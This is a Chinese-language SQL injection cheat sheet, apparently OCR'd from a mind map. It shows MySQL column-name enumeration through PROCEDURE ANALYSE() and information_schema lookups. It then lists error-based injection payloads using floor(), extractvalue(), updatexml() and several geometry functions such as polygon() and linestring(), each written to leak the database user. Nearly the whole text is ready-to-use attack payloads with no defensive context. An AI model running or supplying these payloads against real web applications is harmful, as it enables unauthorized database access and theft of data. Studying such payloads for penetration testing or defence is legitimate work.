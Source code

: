 - 报错

	- 利用 PROCEDURE ANALYSE()

		- -- 这个需要 web 展示页面有你所注入查询的一个字段
		- -- 获得第一个段名
		- SELECT username, permission FROM Users WHERE id = 1; 1 PROCEDURE ANALYSE()
		- -- 获得第二个段名
		- 1 LIMIT 1,1 PROCEDURE ANALYSE()
		- -- 获得第三个段名
		- 1 LIMIT 2,1 PROCEDURE ANALYSE()

### 根据列名查询所在的表

- -- 查询字段名为 username 的表

	- SELECT table_name FROM information_schema.columns WHERE column_name = 'username';

- -- 查询字段名中包含 username 的表

	- SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%user%';

### 报错注入

- floor()

	- `select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);`

- extractvalue()

	- select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

- updatexml()

	- select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

- geometrycollection()

	- select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));

- multipoint()

	- select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));

- polygon()

	- select * from test where id=1 and polygon((select * from(select * from(select user())a)b));

- multipolygon()

	- select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));

- linestring()

	- select * from test where id=1 and linestring((select * from(select * from(select user())a)b));

- multilinestring()

	- select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));

